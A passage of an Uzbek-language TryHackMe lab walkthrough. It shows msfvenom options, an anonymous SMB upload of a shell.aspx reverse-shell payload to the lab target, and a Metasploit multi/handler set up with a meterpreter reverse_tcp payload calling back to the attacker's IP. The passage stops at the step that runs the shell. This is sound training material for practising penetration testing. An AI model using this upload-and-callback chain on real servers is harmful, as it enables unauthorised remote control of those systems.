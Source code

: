 **lhost** — bu esa reverse shellni qabul qiluvchi yani haker(biz)ning IP manzilimiz.

**lport** — bu esa port yani qaysi portdan qabul qilamiz.

**-f** — formati

**-o shell.aspx** — fayl yozish, bizning dasturni qanday nomda saqlanishini belgilab beramiz.

Endi esa **PUT** buyrug;i orqali tayyorlangan shellni yuklaymiz, serverga.

```
╭─mete   󰉖 ~/THM/THM-LABS/0106-2025
╰─ ❯❯ ls
 passwords.txt   shell.aspx

╭─mete   󰉖 ~/THM/THM-LABS/0106-2025
╰─ ❯❯ smbclient //10.10.186.118/nt4wrksv -N
Can't load /etc/samba/smb.conf - run testparm to debug it
Try "help" to get a list of possible commands.
smb: \> put shell.aspx
putting file shell.aspx as \shell.aspx (606.3 kb/s) (average 606.3 kb/s)

```

## Keyingi bosqich esa reverse shellni tutib olishga tayyorgarlik ko'rish.

Metasploitni ishga tushirish

```markdown
msfconsole
```
Handlerdan foydalanishni belgilash
```
use exploit/multi/handler
```
Bizga kerakli payloadni belgilash
```
set payload windows/x64/meterpreter_reverse_tcp
```
Hujumchi(ya'ni biz)ni IP manzilimizni ko'rsatish.
```
set LHOST 10.8.24.135
```
Eshituvchi portni belgilash.
```
set LPORT 4444
```
Ishga tushurish.
```
run
```



## Shellni ishga tushirish

